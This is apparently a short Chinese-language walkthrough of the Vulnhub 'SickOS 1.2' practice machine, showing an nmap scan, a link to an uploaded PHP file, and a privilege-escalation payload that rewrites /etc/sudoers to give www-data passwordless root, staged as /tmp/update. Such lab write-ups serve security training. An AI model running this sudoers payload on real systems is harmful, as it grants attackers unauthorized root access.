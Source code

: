 ```yaml
---
title: Vulnhub 144 SICKOS 1.2 简
date: 2016-04-27
---
```


靶机链接：<https://vulnhub.com/entry/sickos-12,144/>

<!--more-->

## 环境配置

| 名称        | IP             |
| ----------- | -------------- |
| Kali Linux  | 192.168.88.153 |
| SICKOS: 1.2 | 192.168.88.157 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.157
$ sudo nmap -v -A -p- $rip
```


![](./1.webp)

![](./2.webp)

![](./3.webp)
 
<http://192.168.88.157/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000>

![](./4.webp)

![](./5.webp)
 

![](./6.webp)

<http://192.168.88.157/test/r443.php>

![](./7.webp)

![](./8.webp)

![](./9.webp)

![](./10.webp)

`chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers `

```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update   
chmod a+x /tmp/update
```

静静等待

![](./11.webp)

